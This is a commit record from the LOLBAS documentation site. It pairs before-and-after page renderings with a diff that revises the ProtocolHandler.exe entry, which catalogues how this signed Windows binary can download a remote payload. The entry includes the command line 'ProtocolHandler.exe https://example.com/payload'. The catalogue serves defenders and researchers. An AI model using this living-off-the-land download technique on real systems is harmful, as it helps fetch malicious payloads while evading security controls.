

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/ProtocolHandler.md, in a window 1280 px wide. Shown: the whole page at 99% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Applying update LOLBAS-Project/LOLBAS@8aca00a56b259625646f85a8a38158cb22af60ed

```diff
--- a/_lolbas/OtherMSBinaries/ProtocolHandler.md
+++ b/_lolbas/OtherMSBinaries/ProtocolHandler.md
@@ -6,7 +6,7 @@ Created: 2022-07-24
 Commands:
   - Command: ProtocolHandler.exe https://example.com/payload
     Description: Downloads payload from remote server
-    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
+    Usecase: "It will open the specified URL in the default web browser, which (if the URL points to a file) will often result in the file being downloaded to the user's Downloads folder (without user interaction)"
     Category: Download
     Privileges: User
     MitreID: T1105
```
